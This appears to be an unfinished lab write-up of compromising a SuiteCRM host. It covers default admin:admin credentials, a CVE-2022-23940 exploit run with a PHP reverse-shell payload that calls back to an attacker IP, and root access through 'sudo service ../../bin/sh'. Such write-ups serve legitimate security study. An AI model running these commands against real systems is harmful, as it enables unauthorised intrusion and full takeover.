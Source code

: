 #InProgress 
```IP
192.168.232.146
```
# Enumeration

## HTTP 80
admin:admin
we are in

Suite CRM
Version 7.12.3
Sugar Version 6.5.25 (Build 344)
# Exploitation
https://github.com/manuelz120/CVE-2022-23940
```
python exploit.py -h http://192.168.232.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.185\",4444);passthru(\"sh <&3 >&3 2>&3\");'"
```

# PrivEsc

## Manual
tty treatment
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110748.png?raw=true)

we can use sudo service 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110828.png?raw=true)
with service we can access the file system without dropping privileges
```
sudo service ../../bin/sh
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110933.png?raw=true)
we are root now
## Automated

### Peass
### Mimikatz

# Lateral Movement
